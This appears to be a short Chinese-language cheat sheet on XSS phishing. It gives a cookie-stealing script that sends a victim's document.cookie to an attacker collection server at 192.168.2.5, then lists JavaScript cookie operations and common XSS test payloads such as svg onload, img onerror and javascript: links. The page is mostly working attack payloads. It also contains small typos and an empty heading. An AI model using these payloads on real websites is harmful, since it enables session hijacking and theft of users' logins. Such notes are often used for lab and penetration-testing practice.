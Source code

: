 # XSS 钓鱼

```javascript
<script>document.location='http://192.168.2.5:8080/pkxss/xcookie/cookie.php?cookie='+document.cookie</script>
```





等价扩展名:

### javascript 操作cookie的几种方式

```javascript
document.cookie
-- 显示cookie

document.cookie="usernmae=value"
-- 添加一个新属性 或修改(如果不存在则添加，存在则修改)

document.cookie="Thu,01 Jan 1970 00:00:00 GTM"
-- 删除cookie 将cookie的过期时间设置为当前时间之前的时间即可。

```



**常用测试语句**

```javascript
'> value='' 

'> onmouseover='alert(1)'

' onmouseover='alert(/xss)'> 

<svg onload=alert(1)>
<img src=x onerror=alert(1)>
<a href=javascript:alert(123)>

# 测试以下关键字是否会被过滤
<script " ' Oonn>


'><a href='javascript:alert:alert(/xss/)'>click</a>
```

